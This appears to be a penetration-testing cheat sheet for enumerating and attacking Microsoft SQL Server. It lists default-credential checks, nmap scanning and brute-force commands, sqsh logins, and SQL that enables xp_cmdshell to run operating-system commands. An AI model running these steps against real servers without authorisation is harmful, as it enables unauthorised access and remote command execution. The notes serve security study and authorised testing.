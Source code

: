 # MSSQL Enumeration
## Checks
- Try default credentials "sa:password"
- Brute force credentials
- Check database content for passwords
- Check version for exploits
- RCE 
	- through xp_cmdshell functionality
	- through injecting payload in output file, placing it in webroot and triggering it through webapp

## Commands
Nmap 
```bash
nmap -p 1433 --script='banner,(ms-sql* or ssl*) and not (brute or broadcast or dos or external or fuzzer)' $ip -o 1433_nmap_mssql
```

Credential brute force
```bash
nmap -p 1433 --script ms-sql-brute --script-args passdb=/usr/share/seclists/Passwords/darkweb2017-top1000.txt $ip
```

Manually logging in (Kali linux) :
```bash
# Login
sqsh -S $ip -U sa -P password
sqsh -S $ip:27900 -U sa -P password
```

Executing shell commands :
```sql
# Execute commands
xp_cmdshell 'date'
go
```

Activate the xp_cmdshell command :
```sql 
# To allow advanced options to be changed.  
EXECUTE sp_configure 'show advanced options', 1;  
GO  
# To update the currently configured value for advanced options.  
RECONFIGURE;  
GO  
# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
GO  
# To update the currently configured value for this feature.  
RECONFIGURE;  
GO  
```